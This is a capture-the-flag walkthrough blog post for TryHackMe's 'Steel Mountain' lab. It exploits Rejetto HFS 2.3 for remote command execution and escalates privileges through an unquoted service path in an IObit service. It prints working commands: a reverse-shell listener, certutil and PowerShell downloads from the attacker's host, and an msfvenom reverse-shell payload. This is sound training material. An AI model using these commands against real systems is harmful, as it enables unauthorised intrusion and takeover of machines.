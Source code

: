 ```yaml
---
layout: post
title: "Steel Mountain"
---
```


[Steel Mountain](https://tryhackme.com/room/steelmountain) is the first machine in the "Advanced Exploitation" part of  TryHackMe's "Offensive pentesting" path.

---

## Enumeration
By scanning the machine with nmap we can see that both port `80` and port `8080` are running the HTTP services.  
Port `80` has nothing relevant. Port `8080`, however, mentioned that this service is running on `HttpFileServer 2.3`.  
By going a quick Google search we can learn that the full name of the service is `Rejetto HTTP File Server (HFS)`.

Let's check for the available exploits:
```
searchsploit Http File Server 2.3
----------------------------------------------------------------------------------------- -------------------------
 Exploit Title                                                                           |  Path
----------------------------------------------------------------------------------------- -------------------------
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                           | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                      | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                      | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                 | windows/webapps/34852.txt
----------------------------------------------------------------------------------------- -------------------------
```
The official guide is going through the exploitation with `Metasploit`, but I will skip this part, as from learning point of view it's not so useful.

## Exploitation
Let's try out the exploit:
```
searchsploit -m 39161
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /THM/StillMountain/39161.py
```

> Always read the code of exploit before run it!

Line `35` and `36` should be changed to make this exploit to work.

```
ip_addr = "10.11.19.53" #local IP address
local_port = "443" # Local Port number
```
Also, the HTTP server with `nc.exe` should be served on the local host. `nc.exe` can be found in `/usr/share/windows-resources/binaries/nc.exe`.  

```
sudo python -m SimpleHTTPServer 80
```

Create a listener for a reverse shell:

```
sudo nc -nlvp 443
```

Run the exploit and catch the shell:

```
python 39161.py 10.10.114.253  8080
```

## PrivEsc

To enumerate all possible ways to escalate privileges we will use [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS).
Download it and put to the folder where you are already running the `SimpleHTTPServer`.

You can download files to it by using `certutil.exe`.
You can read more about `certutil` [here](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil), but syntax that we will need is:

```
certutil.exe -urlcache -split -f http://10.11.19.53/winPEAS.exe
```

The `PowerShell` also could be an alternative for that:

```
powershell -c (new-object System.Net.WebClient).DownloadFile(‘http://10.11.19.5/winPEAS.exe','C:\Users\Public\winPEAS.exe')
```

Run `winPEAS` and explore the output.

```
AdvancedSystemCareService9(IObit - Advanced SystemCare Service 9)[C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe] - Auto - Running - No quotes and Space detected
```

By checking the available exploits we can find that this service is vulnerable to the `UnquotedServicePath` vulnerability.

To preview the content of the exploit you can use `-x` flag of the `searchsploit`:
```
searchsploit -x 40577
```

The main idea here is that the binary of the service is located in the `C:\Program Files\IObit\Advanced SystemCare\` folder. As the path is unquoted, an attacker could place the malicious binary named `Advanced.exe` to the `C:\Program Files\IObit\` folder.
By starting the service one more time, the `C:\Program Files\IObit\Advanced.exe` will be executed with system rights, instead of the `C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`.

Creating a reverse shell:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.19.53 LPORT=53 -f exe -o Advanced.exe
```

Open another listener for the port `53`

```
sudo nc -nlvp 53
```
Download the reverse shell to the machine:

```
cd C:\Program Files\IObit\
certutil.exe -urlcache -split -f http://10.11.19.53/Advanced.exe
```

Stop and start over the service:

```
C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0



C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```

## Takeaway
- Make sure that you are enumerating all ports
- If there is a Metasploit module, that means you can do the same thing manually
- Always read the code of the exploit

